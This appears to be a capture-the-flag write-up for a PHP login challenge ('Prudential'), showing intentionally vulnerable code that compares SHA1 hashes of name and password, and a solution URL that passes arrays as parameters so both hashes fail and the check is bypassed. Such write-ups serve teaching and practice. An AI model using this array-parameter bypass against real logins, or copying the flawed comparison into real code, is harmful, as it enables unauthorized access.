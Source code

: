 ### Writeup

---

# Prudential
---
I dont think that sha1 is broken. Prove me wrong. : 25

## Source code

```
<html>
<head>
	<title>level1</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

<?php
require 'flag.php';

if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        print 'Your password can not be your name.';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        print '<p class="alert">Invalid password.</p>';
}
?>

<section class="login">
	<div class="title">
		<a href="./index.txt">Level 1</a>
	</div>

	<form method="get">
		<input type="text" required name="name" placeholder="Name"/><br/>
		<input type="text" required name="password" placeholder="Password" /><br/>
		<input type="submit"/>
	</form>
</section>
</body>
</html>

```

## Solution

Because there's no option to find two different strings which will generate equals SHA1 IDs (although theoretically it is possible), we have to find other way to pass login validation.

If we "break" types of parameters passed to script, condition is not executed and 'Flag' displays:

```
http://52.10.107.64:8001/?name[]=a&password[]=b
```

Note: This is sample error output from local script:

> Warning: sha1() expects parameter 1 to be string, array given in (...)ctf/BKPCTF2015/test.php on line 14

> Warning: sha1() expects parameter 1 to be string, array given in (...)ctf/BKPCTF2015/test.php on line 14

> Flag:
